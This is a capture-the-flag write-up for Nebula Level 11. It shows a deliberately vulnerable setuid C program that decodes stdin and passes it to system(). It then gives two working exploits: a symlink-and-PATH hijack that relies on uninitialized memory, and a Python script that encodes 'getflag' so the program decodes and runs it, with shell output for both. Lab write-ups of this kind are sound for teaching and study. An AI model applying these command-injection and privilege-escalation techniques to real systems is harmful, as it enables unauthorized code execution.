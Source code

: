 # Nebula - Level 11

### About ##

>The /home/flag11/flag11 binary processes standard input and executes a shell command.
>There are two ways of completing this level, you may wish to do both :-)
>To do this level, log in as the level11 account with the password level11 . Files for this level can be found in /home/flag11.

### Source code ###

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

/*
 * Return a random, non predictable file, and return the file descriptor for it.
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid, 
    'A' + (random() % 26), '0' + (random() % 10), 
    'a' + (random() % 26), 'A' + (random() % 26),
    '0' + (random() % 10), 'a' + (random() % 26));

  fd = open(*path, O_CREAT|O_RDWR, 0600);
  unlink(*path);
  return fd;
}

void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
    buffer[i] ^= key;
    key -= buffer[i];
  }

  system(buffer);
}

#define CL "Content-Length: "

int main(int argc, char **argv)
{
  char line[256];
  char buf[1024];
  char *mem;
  int length;
  int fd;
  char *path;

  if(fgets(line, sizeof(line), stdin) == NULL) {
    errx(1, "reading from stdin");
  }

  if(strncmp(line, CL, strlen(CL)) != 0) {
    errx(1, "invalid header");
  }

  length = atoi(line + strlen(CL));
  
  if(length < sizeof(buf)) {
    if(fread(buf, length, 1, stdin) != length) {
      err(1, "fread length");
    }
    process(buf, length);
  } else {
    int blue = length;
    int pink;

    fd = getrand(&path);

    while(blue > 0) {
      printf("blue = %d, length = %d, ", blue, length);

      pink = fread(buf, 1, sizeof(buf), stdin);
      printf("pink = %d\n", pink);

      if(pink <= 0) {
        err(1, "fread fail(blue = %d, length = %d)", blue, length);
      }
      write(fd, buf, pink);

      blue -= pink;
    }  
    
    mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
    if(mem == MAP_FAILED) {
      err(1, "mmap");
    }
    process(mem, length);
  }

}
```

## Solutions

### Solution 1

The first way to solve this challenge is by giving the value 1 in the `Content-Length` "header".

In that case, the user is asked to enter one character which is stored in `buffer` and is then sent to the function `process`.

```
level11@nebula:/tmp$ echo -e "Content-Length: 1\nr" | /home/flag11/flag11 >&1sh: $'s\300\207': command not found
level11@nebula:/tmp$ echo -e "Content-Length: 1\nr" | /home/flag11/flag11 >&1
sh: $'s\360Y': command not found
level11@nebula:/tmp$ echo -e "Content-Length: 1\nr" | /home/flag11/flag11 >&1
sh: $'s\020H': command not found
```

The output is, most of the time, useless. But on certain occasions, since `buffer` is uninitialized, there are null pointers conveniently placed which allows to execute commands, just like in the example below.

```
level11@nebula:/tmp$ echo -e "Content-Length: 1\nr" | /home/flag11/flag11 >&1
sh: s: command not found
```

It is then possible to execute `getflag` with a symbolic link. It also requires a bit of luck to get the null pointer in the right place.

```
level11@nebula:/home/flag11$ ln -s /bin/getflag /tmp/s
level11@nebula:/tmp$ export PATH=/tmp:$PATH
level11@nebula:/tmp$ echo -e "Content-Length: 1\nr" | /home/flag11/flag11 >&1
sh: $'s0\242': command not found
level11@nebula:/tmp$ echo -e "Content-Length: 1\nr" | /home/flag11/flag11 >&1
sh: -c: line 0: syntax error near unexpected token `newline'
sh: -c: line 0: `sP('
level11@nebula:/tmp$ echo -e "Content-Length: 1\nr" | /home/flag11/flag11 >&1
sh: $'sP\227': command not found
level11@nebula:/tmp$ echo -e "Content-Length: 1\nr" | /home/flag11/flag11 >&1
getflag is executing on a non-flag account, this doesn't count
```


### Solution 2 ####

The second way to solve this challenge is by giving a value greater than 1024 in the `Content-Length` "header". 1024 is entered in this case.

The program is expecting a string of 1024 characters, which is then encrypted by the function `process` before being executed with the function `system`.

```c
void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
    buffer[i] ^= key;
    key -= buffer[i];
  }

  system(buffer);
}
```

If the function is executed multiple times in a row on the same string, the output is the original string. It can be used to execute the command `getflag` with a simple python script.


```python
import sys

def cipher(string):
        cstring = ""
        key = 1024 & 0xff
        for c in string:
                cc = (ord(c)^key) & 0xff
                key = (key - cc) & 0xff
                cstring += chr(cc)
        return cstring

length = 1024
prog = "getflag\x00"
pad = 'a'*(length-len(prog))

ncrypted = prog
for i in range(127):
        ncrypted = cipher(ncrypted)
print >> sys.stderr, ncrypted           # The string given in argument to ./flag11
print >> sys.stderr, cipher(ncrypted)   # The same string ciphered one more time is the original string prog
print "Content-Length: 1024\n{}".format(ncrypted+pad)
```

Which outputs

```
level11@nebula:/tmp$ python flag11.py | /home/flag11/flag11
g?@?6??&
getflag
blue = 1024, length = 1024, pink = 1024
getflag is executing on a non-flag account, this doesn't count
```
